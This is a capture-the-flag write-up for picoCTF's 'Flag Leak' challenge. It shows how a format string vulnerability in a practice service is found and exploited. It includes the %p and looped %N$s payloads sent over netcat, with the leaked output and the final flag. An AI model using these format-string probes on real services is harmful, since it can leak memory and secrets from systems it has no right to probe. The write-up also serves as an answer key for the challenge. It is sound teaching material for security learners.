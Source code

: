 # Flag Leak 

## Challenge
*Story telling class 1/2*
*I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:*
*nc saturn.picoctf.net 50926* 

## Thought Process
First Step was to examine the files provided starting off with the vuln.c
After examining it was pretty clear that the program contained a format string vulnerability.

To exploit a format string vulnerability, I gave `%p%p%p%p%p%p%p%p%p%p%p%p` as an input to which i got a hex encoded - scrambled flag like response :
```bash
randoduck@DESKTOP-2PM3SNS:~$ nc saturn.picoctf.net 50926
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xffcbc2200xffcbc2400x80493460x702570250x702570250x702570250x702570250x702570250x70257025 # *ocip{FTCk43L_gn1g4lFff0_4tS_1_kc2a125}* 
```
Since this isn't quite it , I tried using `gdb` to set return and break addresses to find out the location of *readflag* on the stack. This attempt of mine was unsuccessful as it kept showing errors regarding the file executables. After further research I came across this method of brute forcing and leaking values off the stack using different type of format strings . Now the way the brute forcing would work is by printing out the values in consecutive memory location in a stack . This repeated execution can be replicated using `for loop ` in bash .

#### Explanation of Each Component:

- **for i in {0..999}**
This is a Bash loop that iterates through numbers from 0 to 999.
The variable i takes each value in this range during each iteration.

- **do ... done:**
This defines the block of code to execute during each iteration of the loop.

- **echo "%$i\$s":**
echo: Prints the string to the terminal or pipes it to the next command.

- **"%$i\$s":**
%$i\$s:
%: A format specifier .
$i: The current value of i in the loop, replaced on each iteration.

\$: The \ escapes the dollar sign $ so it is treated as a literal character in the string.

s: part of a formatted string, intended for a format string vulnerability.

```bash
randoduck@DESKTOP-2PM3SNS:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 59213 ; done                                               
Tell me a story and then I'll tell you one >> Here's a story -                                                                                       %0$s                                                                                                                                                 Tell me a story and then I'll tell you one >> Here's a story -                                                                                       %1$s                                                                                                                                                 Tell me a story and then I'll tell you one >> Here's a story -                                                                                       A                                                                                                                                                   Tell me a story and then I'll tell you one >> Here's a story
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ 
```
After several in the end we come across what uncannily ressembles a flag so we stop the process and take a look . I noticed that this particular flag was correct but nevertheless not complete.

## Solution 
 I realised this demanded a more targeted approach and hence used the `grep` command in my next iteration . The changes made were :
- **grep:** used to search for patterns in text.
It reads input (from a file or standard input) and outputs lines that match the specified pattern.
- **E:** Enables Extended Regular Expressions (ERE) in the pattern.
With -E, you can use additional regex features like parentheses () for grouping and | for alternation without needing to escape them.
- **i:**
Makes the search case-insensitive.
For example, it treats "PICO", "pico", "CtF", "CTF", etc., as equivalent matches.
- **'(pico|ctf)':**
pico: Matches any occurrence of "pico" (case-insensitively).
|: Means "OR" in regex.
ctf: Matches any occurrence of "ctf" (case-insensitively).

```bash 
randoduck@DESKTOP-2PM3SNS:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 59213 | grep -Ei '(pico|ctf)'; done                                                                                                                                            CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}     
```
piecing it up we get the flag as : *picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}*

## <3
